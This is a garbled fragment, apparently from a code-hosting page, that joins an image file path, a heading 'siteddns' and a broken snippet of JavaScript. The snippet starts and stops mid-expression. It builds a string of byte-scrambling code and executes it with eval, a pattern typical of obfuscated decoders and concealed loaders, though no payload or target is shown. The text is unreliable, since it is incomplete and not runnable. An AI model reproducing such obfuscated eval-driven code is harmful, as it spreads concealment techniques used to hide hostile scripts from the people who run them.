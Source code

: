  # siteddns
=3);ld="ld=50;for(;ld>=1;){jd[ld]=(jd[ld]+jd[ld-1])&0xff;ld--;}";eval(ld);ld=52;for(;;ld--){if(ld
